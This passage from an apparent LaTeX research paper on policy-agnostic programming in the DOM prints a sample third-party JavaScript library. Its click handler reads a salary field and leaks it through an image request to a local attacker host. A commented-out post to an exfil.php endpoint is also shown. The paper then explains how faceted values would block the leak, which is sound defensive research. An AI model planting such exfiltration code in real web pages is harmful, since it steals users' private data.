 \begin{figure}
  \begin{lstlisting}
var d = new Date();
var time = d.getHours();
var greetingNode = document.getElementById("greeting");
var message = "Good day!";
document.body.style.fontStyle.color = "black";
//This section sets background color and greeting based on the time
.
.
.
var welcomeText = document.createTextNode(message);
greetingNode.appendChild(welcomeText);
//Malicious code:
document.addEventListener("click", function () {
  var salaryField = document.getElementById("OwnSalary");
  var text = salaryField.innerHTML;
  var malImg = document.createElement("img");
  var commaPos = text.indexOf(",");
  var dollarPos = text.indexOf("$");
  var name = text.slice(3,commaPos);
  var salary = text.slice(dollarPos+1);
  malImg.setAttribute("src","http://localhost:8081/" + name + "_" + salary + ".jpg");
  //The following would violate the same origin policy:
  //$.post('http://localhost:8081/exfil.php',{message:text});
});
  \end{lstlisting}
  \caption{Third Party library with exfiltration code}
  \label{fig:trudyLib}
\end{figure}

\begin{figure}
  \centering
  \includegraphics[scale=0.5, frame]{images/accessLog}
  \caption{Access log entry giving Manny's salary information to the attacker}
  \label{fig:accessLog}
\end{figure}

Now let's look at how policy-agnostic programming controls in the DOM would prevent
such an attack. Figure~\ref{fig:displaySalary} shows a code snippet of the code
that would display a message similar to the one shown in Figure~\ref{fig:salaryMgr}.
Note, the string concatenation in the code would produce a faceted value of the
form:\\
\indent \texttt{<"n"?}
  \texttt{<"s"?"Manny's Salary is:10000":"Manny's Salary is:0">:}\\
  \indent\indent\texttt{<"s"?"JonDoe's Salary is:10000":"Manny's Salary is:0">~>}
\noindent \eject
So, with the correct policies in place, the message displayed on the web page would
be ``Manny's Salary is:10000'' and the image request would be for ``JonDoe\_0.jpg''.

